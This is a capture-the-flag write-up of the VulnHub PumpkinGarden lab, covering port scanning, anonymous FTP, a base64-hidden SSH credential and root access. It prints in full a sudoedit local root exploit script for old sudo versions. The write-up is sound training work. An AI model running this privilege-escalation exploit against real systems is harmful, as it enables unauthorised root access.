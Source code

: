 ## Mission-Pumpkin v1.0: PumpkinGarden

The series took my eye on vulnhub, so I decided to [check them out.](https://www.vulnhub.com/?q=pumpkin) 

![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-10.png)

### Finding out the IP-Adress

This time it was very easy - the vm itself showed it on the welcome screen.

The IP I had to deal with was 192.168.178.59

### Looking for open doors

I fired up Zenmap (yeah I know, but I really like the GUI) to take a closer look at open ports.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-19.png)

So there is nothing but a ftp-server. Let's check it out.

vsftp (very secure ftp) supports often an anonymous login. Thats what I tried first:

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-13.png)

Because I never worked with ftp like this before i messed up with the commands a little.
But in the end I got what I wanted.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-12.png)

That note.txt said:
```markdown
Hello Dear! 
Looking for route map to PumpkinGarden? I think jack can help you find it.
````
Who the heck is Jack?
Maybe this is a username or something like that. I'll save that for later.
Because I didn't know what to search for, I decided to fire up Zenmap again, but this time with a larger portrange.
Bingo!
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-14.png)

Now I got a fileserver, a webserver and ssh. Thats a step forward. Let's check out the webserver.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-15.png)

It says `the route map to PumpkinGarden is somewhere under the hood`. 

That made me take a closer look at the sourcecode.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-16.png)

That went well. But what does it mean? This ist an absolute beginner vm, so I didn't expect it's talking about steganography.
I took a closer look at the image, but found nothing. Except the path where it is stored.
`192.168.178.59:1515/images`
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-18.png)

`hidden_secret` sounds good. After opening that directory, I found a textfile (clue.txt).

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-1.png)

That looks like a hash or some other type of decoded text. I ran it through hash-identifier, but there were no results.
Next possibility that came to my mind was base64.

`echo c2NhcmVjcm93IDogNVFuQCR5 | base64 -d`

Voilá `scarecrow : 5Qn@$y`

That looks like a set of credentials. Maybe they work for SSH?

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-2.png)

Oh yes, they do. First big step is done, were inside of the vm.

After running the `ls -la` Command, I recognized a file called note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-3.png)

Goblin? What for a goblin? Is this another username for ssh?
A quick check of `/etc/passwd` revealed that I assumed this correctly.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-4.png)

Let's try if that awkward string is the password for goblin.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-5.png)

I'm running `ls -la` again and was presented with another note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-6.png)

That sounds very good, but unfortunately it was a dead end because the site threw up a 404 Error.
Damn! After a couple of minutes spending on google I found out that this exploit was a bash script, which escalates our privileges to root.
Here's the script:
````
#!/bin/sh
# Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
# local root exploit
# March 2010
# automated by kingcope
# Full Credits to Slouching
echo Tod Miller Sudo local root exploit
echo by Slouching
echo automated by kingcope
if [ $# != 1 ]
then
echo "usage ./sudoxpl.sh <file you have permission to edit>"
exit
fi
# cd /tmp
cat > sudoedit << _EOF
#!/bin/sh
echo ALEX-ALEX
su
/bin/su
/usr/bin/su
_EOF
chmod a+x ./sudoedit $1
````
I went to `/tmp` to create the file and run it, but it didn't work.

Why? Maybe I should run this as scarecrow.

Nope, that won't work eiter. But what now?

I logged in again as goblin an run `ps -aux` which shows all current running processes.

There was a damn script running, which empties `/tmp` and `/home/goblin` every 15 seconds.

Ok, I had to create the script, change the permissions that I could execute it and run it within 15 secs.

I needed a few tries, but with the correct commands in my bash history I could accomplish that.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-7.png)

# BAM there it is - the root shell!

Running `ls -la` again showed me that there is a PumpkinGarden_Key file.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-8.png)

This is a base64 string again. So i echoed it into the base64 decoder.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-9.png)

That's it! I really had fun with that box! Can't wait to take a closer look at part II of the series.

Thanky for reading and happy pwning!
